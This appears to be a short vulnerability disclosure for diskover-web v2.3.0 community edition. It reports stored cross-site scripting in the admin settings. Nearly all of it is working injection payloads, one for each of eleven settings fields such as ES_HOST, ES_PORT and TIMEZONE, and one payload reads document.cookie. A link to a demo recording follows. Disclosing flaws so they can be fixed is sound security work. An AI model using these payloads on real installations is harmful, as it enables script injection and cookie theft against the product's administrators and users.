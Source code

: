 ```diskover-web v2.3.0 community edition (ce)```


Stored XSS
There are multiple stored xss in the admin settings.


ES_HOST

```test<script>alert(document.cookie)</script>test```


ES_INDEXREFRESH

```test"><script>alert(1)</script>test```


ES_PORT

```9200<script>alert(document.domain)</script>test```


ES_SCROLLSIZE

```test"><script>alert(1)</script>test```


ES_TRANSLOGSIZE

```test"><script>alert(1)</script>test```


ES_TRANSLOGSYNCINT

```test"><script>alert(1)</script>test```


EXCLUDES_FILES

```test"><script>alert(1)</script>test```


FILE_TYPES[]

```test<script>alert(1)</script> test```


INCLUDES_DIRS

```test"><script>alert(1)</script>test```


INCLUDES_FILES

```test"><script>alert(1)</script>test```


TIMEZONE

```test"><script>alert(1)</script>test```


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/diskover-web_v2.3.0_community_edition_stored_XSS_via_settings.gif?raw=true)



